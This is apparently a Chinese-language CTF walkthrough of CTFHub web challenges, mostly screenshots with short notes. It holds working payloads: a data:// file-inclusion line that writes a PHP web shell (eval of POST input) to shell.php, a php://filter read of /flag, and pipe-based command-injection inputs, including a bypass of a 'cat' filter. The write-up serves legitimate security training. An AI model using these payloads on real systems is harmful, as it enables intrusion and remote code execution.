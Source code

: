 ![](https://cdn.nlark.com/yuque/0/2025/png/57535506/1751695604104-c6f430e8-ddaf-4593-839e-fbc214afb57d.png)

### 远程包含
![](https://cdn.nlark.com/yuque/0/2025/png/57535506/1751695665673-3cb0f377-4fc6-47a5-90af-94d8f0536612.png)

```php
http://challenge-057c54b0b096a464.sandbox.ctfhub.com:10800/?file=data://,<?php fputs(fopen('shell.php','w'),'123<?php eval($_POST["code"]);?>');
```

成功

![](https://cdn.nlark.com/yuque/0/2025/png/57535506/1751696589818-2cc35688-027b-430b-9728-3ae529b018a0.png)

### 读取源代码
![](https://cdn.nlark.com/yuque/0/2025/png/57535506/1751696636248-6b50eabe-5c1a-43fb-9cb8-0a51e942694c.png)

分析：file参数以`php://`开头，存在`/flag`文件

```php
http://challenge-a8afd380d641eed1.sandbox.ctfhub.com:10800/?file=php://filter/resource=/flag
```

![](https://cdn.nlark.com/yuque/0/2025/png/57535506/1751696771073-a60274bd-2bdf-4208-baf0-81a5d04ec610.png)

### 命令注入
```php
127.0.0.1|ls
```

![](https://cdn.nlark.com/yuque/0/2025/png/57535506/1751696898210-5ae8f781-a5a3-4d38-9eef-c05df9bb42c5.png)

```php
127.0.0.1|cat 262363244510708.php
```

![](https://cdn.nlark.com/yuque/0/2025/png/57535506/1751696975729-654a3a80-89b1-4127-bb68-f874c89639ad.png)

### 过滤cat
`127.0.0.1|ls`

![](https://cdn.nlark.com/yuque/0/2025/png/57535506/1751697050685-212bf344-e6ae-4ddd-87fe-63c5bf7ba978.png)

`127.0.0.1|head flag_42519488108.php`

![](https://cdn.nlark.com/yuque/0/2025/png/57535506/1751697123563-54e2e290-822f-4ed3-9e97-55162bdae02b.png)

### 过滤空格
`127.0.0.1|ls`

![](https://cdn.nlark.com/yuque/0/2025/png/57535506/1751697218065-db6a77aa-27c6-43d4-bd29-afde171de01e.png)
